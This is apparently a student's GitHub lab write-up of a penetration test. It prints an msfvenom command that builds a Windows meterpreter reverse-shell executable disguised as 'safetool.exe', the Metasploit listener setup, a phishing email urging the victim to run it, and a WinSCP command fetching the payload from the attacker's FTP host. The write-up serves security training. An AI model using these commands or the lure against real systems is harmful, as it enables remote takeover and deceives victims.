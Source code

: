 # Penetrating-an-Internal-Network


<h1>Phase 5</h1>


**<p style="font-size: 15px;">Step 1: Create a remote control payload.</p>**

I began this lab, as I have with many of the others, by elevating the Terminal window to use root privileges with the command "sudo su". Next, I went through the process of creating a new user, "adduser svcsupport". This new user account will be used as the credentials to download an exploit to the victim over FTP. Doing so will help to obfuscate, or hide, my identity if someone evaluates the malicious script. I then created a remote control payload with msfvenom, "msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 -f exe LHOST=203.0.113.66 LPORT=4444 -o /home/svcsupport/safetool.exe". Here is a breakdown of each part of the command, "-p" indicates the exploit to convert to shellcode, "--platform" sets the execution destination type (e.g., Windows), "-a" defines the platform architecture (e.g., x64), "-f" determines the output format (e.g., exe), "LHOST" sets the listening IP address for the receiving host, "LPORT" set the listening post number on the receiving host, and "-o" defines the output path and filename. Once the payload was created, I entered "ls -l /home/svcsupport" to confirm the existence of the exploit output file of safetool.exe. The file is displayed and is 7168 bytes in size. Next, I started the very secure FTP daemon with the command "service vsftpd start". Finally, I started the postgres with the command "service postgresql start". These services were previously downloaded to the lab and will be used to host the safetool.exe file, store the payload and deliver the exploit to the target system. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7f19a4b1-fcea-4695-9a44-f6f076cc5d7a)

**<p style="font-size: 15px;">Step 2: Setup the listener.</p>**

The listener must be set up to receive the inbound connection before the victim can be tricked into running the exploit payload. I began this phase by launching Metasploit utilizing the command "msfconsole". 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/776669b2-337c-4d01-8876-66622f3405e6)

Next, I changed the MSF prompt to a handler for reverse shell payloads with the command "use exploit/multi/handler". As you can see, the following line shows (Using configured payload generic/shel_reverse_tcp). To show the configuration details of the handler I input "show options". As currently configured the LPORT is already set to 4444, the default listening port for metasploit. Additionally, there is not LHOST set and the payload is still set to the generic/shell_reverse_tcp. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8291d92-cd56-40f7-b7ee-794163bd0e35)

Below, I used the commands "set payload windows/x64/meterpreter/reverse_tcp" and "set LHOST 203.0.113.66" to update the configurations to reflect the payload I will utilize and the host. I re-entered the "show options" command to reveal the updates I made.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/cc92f829-fd31-40ea-b41c-9d433a6a10aa)

**<p style="font-size: 15px;">Step 3: Socially engineer the victim.</p>**

Dear Customer,

It has come to our attention that your accounts are outdated and need additional configuration to continue providing optimal services. Here is a tool that will automate the process of improving your configuration so you can continue to enjoy the full benefits of our services. 

Please run the attached file at your earliest convenience.

Note: The operation of the update may take considerable time. Minimize the Command Prompt window and continue using your system normally.  

Sincerely,
The Support Department 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7bf68f95-ffd8-459b-bd48-98c878ab8ef8)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/735bbd9d-b7c4-4e4f-9556-e571d16902fa)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/c15b5d52-9417-4c60-b72d-b8bc93f2a1fd)

"C:\Program Files (x86)\WinSCP\winscp" /ini=nul /command "open ftp://svcsupport:Pa$$w0rd@203.0.113.66/ -hostkey=open" "get safetool.exe %userprofile%\Downloads\" "exit"

%userprofile%\Downloads\safetool.exe

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/44a81139-5023-4440-aacb-15c752b6a1fe)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/41e8a85b-cf6b-46f9-b5c5-cb276b24c147)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8b53073-7666-4ce2-afcc-84719bd5b36b)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/3e7ce2ef-4d3f-43ae-8664-30071b9b8dc4)

**<p style="font-size: 15px;">Step 4: Take advantage of the exploited victim.</p>**

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/37cf91b5-5adb-4ae0-a427-c2af5a0783bc)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/091b0a44-cf32-4b50-a513-c98ef0322f37)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/50cb209c-8fe3-47f9-9a40-aac8d3c066b8)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/2b2eca48-9dcb-43ed-a626-fd7e6f0dac6d)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/f36ea8ca-fe63-44d6-80a8-644b278b9e51)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/78074d05-e177-4390-93f0-4740ae567606)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/9791e984-f45c-467a-b426-0f82afda102f)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/cc638e30-4482-4326-8b09-dda42f94c4ad)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7a08a906-5ba2-4ebe-97d6-da5abc5b8732)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/8db7738a-717f-479a-8b39-eb0f1aba1d90)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/ed720de7-11ac-4953-9b90-672bcc506bac)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/ca7101f7-04b9-42e0-bc49-1d75240ed48f)







